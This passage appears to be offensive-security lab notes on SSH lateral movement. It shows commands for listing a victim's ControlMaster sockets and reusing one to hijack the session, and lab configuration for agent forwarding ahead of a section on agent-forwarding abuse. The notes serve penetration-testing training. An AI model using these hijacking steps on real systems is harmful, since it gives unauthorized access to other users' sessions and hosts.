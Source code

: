 5. **Check for Active ControlMaster Sockets**:
   - Observe the created socket file:

     ```bash
     ls -lat ~/.ssh/master-socket/
     ```

6. **Hijack the SSH Session**:
   - Use the existing socket file to connect to the victim's session:

     ```bash
     ssh -S ~/.ssh/master-socket/<username>@<hostname>:<port> <target-host>
     ```



   📝 These ControlMaster settings can also be placed in /etc/ssh/ssh_config to configure ControlMaster at a system-wide level.

# SSH Hijacking Using SSH-Agent and SSH Agent Forwarding

## Setup

Copy our own SSH key created from ssh-keygen onto both the immediate "first-hop" server and the destination servers.
```
ssh-copy-id -i ~/.ssh/id_ed25519.pub offsec@192.168.223.40
ssh-copy-id -i ~/.ssh/id_ed25519.pub offsec@192.168.223.45
```

Set the following value in `~/.ssh/config` on the `attacker` system.

```
ForwardAgent yes
```
On the immediate or "first-hop server" ensure the following configuration is set in `/etc/ssh/sshd_config`
```
AllowAgentForwarding yes
```
We need to then add our own SSH keys created from ssh-keygen to the agent.
```
ssh-add /home/kali/.ssh/id_ed25519
```
This setup allows your SSH key to be used through multiple hops without having to copy the private key itself to each server.


# SSH Agent Forwarding Abuse

## Overview
With elevated permissions on an immediate "first-hop" server, it is possible to hijack active SSH agent sessions on the system. This allows an attacker to use the SSH agent of a logged-in user to access other systems without needing the user's private key.
